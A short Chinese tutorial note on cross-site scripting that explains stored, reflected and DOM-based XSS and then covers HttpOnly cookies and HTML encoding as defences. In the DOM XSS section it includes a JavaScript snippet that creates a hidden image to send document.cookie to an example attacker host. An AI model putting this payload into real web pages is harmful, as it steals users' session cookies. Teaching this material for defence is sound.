 ## 常见web 安全

XSS跨站攻击







#### XSS 跨站攻击

xss 跨站攻击的目的是：`盗取用户Cookie`、`破坏页面结构`、`重定向到其它网站`

XSS 攻击可以分为3类：存储型（持久型）、反射型（非持久型）、DOM 型。





- **存储型 XSS**

  注入型脚本永久存储在目标服务器上。当浏览器请求数据时，脚本从服务器上传回并执行。

- **反射型 XSS**

  当用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。Web服务器将注入脚本，比如一个错误信息，搜索结果等 返回到用户的浏览器上。由于浏览器认为这个响应来自"可信任"的服务器，所以会执行这段脚本。

- **基于 DOM 的 XSS**

  通过修改原始的客户端代码，受害者浏览器的 DOM 环境改变，导致有效载荷的执行。也就是说，页面本身并没有变化，但由于DOM环境被恶意修改，有客户端代码被包含进了页面，并且意外执行。

  ​	为 dom 元素中，添加一个 script，或是 iframe,img,a ，里对应的 src 或 href设置为恶意代码。如果我们点击 a，就会执行恶意代码。

  ```js
  var hakerImg = document.createElement('img');
  hakerImg.width = 0;
  hakerImg.height = 0;
  hakerImg.src ='http://www.a.com/?hacker='+encodeURIComponent(document.cookie);
  ```

  

## 防范

XSS Filters  

设置 Http Only cookie，请求 该cookie只能通过浏览器在发送 http 请求的时候带着头部。不允许 js 来操作。

#### Html encode

过滤掉html 的特殊字符：`“<”`,  `" "` ,` "&"` ,`">"`	,`'"'`

